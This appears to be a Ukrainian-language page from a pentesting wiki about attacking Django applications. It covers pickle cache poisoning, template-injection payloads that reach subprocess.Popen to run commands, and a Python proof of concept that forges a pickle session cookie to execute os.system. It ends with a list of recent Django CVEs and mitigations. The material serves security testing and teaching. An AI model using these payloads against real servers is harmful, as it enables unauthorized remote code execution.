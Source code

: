# Django

{{#include /banners/hacktricks-training.md}}

## Маніпуляція кешем для RCE
Метод зберігання кешу за замовчуванням у Django - це [Python pickles](https://docs.python.org/3/library/pickle.html), що може призвести до RCE, якщо [недовірене введення буде розпаковано](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Якщо зловмисник може отримати доступ на запис до кешу, він може ескалувати цю вразливість до RCE на базовому сервері**.

Кеш Django зберігається в одному з чотирьох місць: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [пам'яті](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [файлах](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) або [базі даних](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Кеш, збережений на сервері Redis або в базі даних, є найбільш ймовірними векторами атаки (впровадження Redis та SQL-ін'єкція), але зловмисник також може використовувати кеш на основі файлів, щоб перетворити довільний запис на RCE. Підтримувачі позначили це як неактуальне питання. Важливо зазначити, що папка файлів кешу, назва таблиці SQL та деталі сервера Redis можуть варіюватися в залежності від реалізації.

Цей звіт HackerOne надає чудовий, відтворювальний приклад експлуатації кешу Django, збереженого в базі даних SQLite: https://hackerone.com/reports/1415436

---

## Впровадження шаблонів на стороні сервера (SSTI)
Мова шаблонів Django (DTL) є **тюрінг-повною**. Якщо дані, надані користувачем, відображаються як *рядок шаблону* (наприклад, викликом `Template(user_input).render()` або коли `|safe`/`format_html()` видаляє автоматичне екранування), зловмисник може досягти повного SSTI → RCE.

### Виявлення
1. Шукайте динамічні виклики до `Template()` / `Engine.from_string()` / `render_to_string()`, які включають *будь-які* неочищені дані запиту.
2. Надішліть навантаження на основі часу або арифметики:
```django
{{7*7}}
```
Якщо відображений вихід містить `49`, введення компілюється шаблонним двигуном.

### Примітив до RCE
Django блокує прямий доступ до `__import__`, але об'єктна графіка Python доступна:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Знайдіть індекс `subprocess.Popen` (≈400–500 в залежності від збірки Python) та виконайте довільні команди:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Більш безпечний універсальний гаджет - це ітерація до `cls.__name__ == 'Popen'`.

Той же гаджет працює для **Debug Toolbar** або **Django-CMS** функцій рендерингу шаблонів, які неправильно обробляють введення користувача.

---

## RCE на основі сесійного куки з Pickle
Якщо налаштування `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` увімкнено (або користувацький серіалізатор, який десеріалізує pickle), Django *розшифровує та розпаковує* сесійний куки **перед** викликом будь-якого коду представлення. Тому наявність дійсного ключа підпису (за замовчуванням `SECRET_KEY` проекту) є достатньою для негайного віддаленого виконання коду.

### Вимоги до експлуатації
* Сервер використовує `PickleSerializer`.
* Зловмисник знає / може вгадати `settings.SECRET_KEY` (витоки через GitHub, `.env`, сторінки помилок тощо).

### Доказ концепції
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Надішліть отримане cookie, і корисне навантаження виконується з правами WSGI worker.

**Заходи захисту**: Залишайте за замовчуванням `JSONSerializer`, змінюйте `SECRET_KEY` та налаштовуйте `SESSION_COOKIE_HTTPONLY`.

---

## Останні (2023-2025) критичні CVE Django, які повинні перевірити пентестери
* **CVE-2025-48432** – *Введення журналу через неекранований `request.path`* (виправлено 4 червня 2025 року). Дозволяє зловмисникам підсовувати нові рядки/ANSI коди в журнали та отруювати подальший аналіз журналів. Рівень патчу ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Критичне SQL-введення* в `QuerySet.values()/values_list()` на `JSONField` (CVSS 9.8). Створіть JSON ключі, щоб вийти з цитування та виконати довільний SQL. Виправлено в 4.2.15 / 5.0.8.

Завжди визначайте точну версію фреймворку через сторінку помилки `X-Frame-Options` або хеш `/static/admin/css/base.css` та тестуйте вищезазначене, де це можливо.

---

## Посилання
* Випуск безпеки Django – "Django 5.2.2, 5.1.10, 4.2.22 вирішують CVE-2025-48432" – 4 червня 2025 року.
* OP-Innovate: "Django випускає оновлення безпеки для усунення вразливості SQL-введення CVE-2024-42005" – 11 серпня 2024 року.

{{#include /banners/hacktricks-training.md}}

